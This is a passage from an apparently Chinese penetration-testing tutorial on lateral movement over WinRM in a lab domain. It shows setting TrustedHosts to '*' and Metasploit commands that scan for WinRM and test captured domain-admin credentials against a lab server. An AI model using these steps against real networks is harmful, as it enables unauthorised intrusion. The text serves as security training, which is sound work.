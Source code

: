 执行 `Exit-PSSession` 命令即可退出当前会话。

注意，如果当前网络环境是工作组环境运行，或客户端未加入域，直接使用 `Enter-PSSession` 可能会报错以下错误：

> Winrs error:WinRM 客户端无法处理该请求。如果身份验证方案与 Kerberos 不同，或者客户端计算机未加入到域中，则必须使用
> HTTPS 传输或者必须将目标计算机添加到 TrustedHosts 配置设置。使用 winrm.cmd 配置
> TrustedHosts。请注意，TrustedHosts 列表中的计算机可能未经过身份验证。通过运行以下命令 可获得有关此内容的更多信息: winrm
> help config。

此时则需要先在客户端执行以下命令才能使用 `Enter-PSSession`：

    
    
    Set-Item wsman:localhostClientTrustedHosts -value *

## 利用 WinRM 进行横向渗透

测试环境如下：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145637.png)image-20210804200655657

假设此时攻击者已经拿下了内网中的主机 Windows 10，需要继续以 Windows 10 为跳板进行横向移动来拿下 Windows Server
2012，假设此时已经获取到了一个域管理员的登录凭据，并且通过端口扫描发现 Windows Server 2012 开启了 WinRM 服务：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145639.png)image-20210804212802935

下面我们尝试通过 WinRM 获取 Windows Server 2012 的控制权。

### 使用 Metasploit 内置模块

Metasploit 框架内置了多个模块，可用于发现启用了 WinRM 服务的主机，发现用于服务认证的凭证以及执行任意命令和代码。

    
    
    auxiliary/scanner/winrm/winrm_auth_methodsauxiliary/scanner/winrm/winrm_loginauxiliary/scanner/winrm/winrm_cmdexploit/windows/winrm/winrm_script_exec

下面我们依次试用上述模块。

•`auxiliary/scanner/winrm/winrm_auth_methods`

该模块可以发现启用了 WinRM 服务的系统及其支持的身份验证协议，使用如下：

    
    
    use auxiliary/scanner/winrm/winrm_auth_methodsset DOMAIN whoamianonyset rhosts 192.168.93.30run

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145640.png)image-20210804211757503

如上图所示，发现远程主机 Windows Server 2012 开启了 WinRM 服务并且三种类型的身份验证都支持。

•`auxiliary/scanner/winrm/winrm_login`

模块可以确定我们获得的管理员凭据是否对其他系统有效：

    
    
    use auxiliary/scanner/winrm/winrm_loginset DOMAIN whoamianonyset USERNAME administratorset PASSWORD Whoami2021set rhosts 192.168.93.30set rport 5985run

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210915145642.png)image-20210804211908907
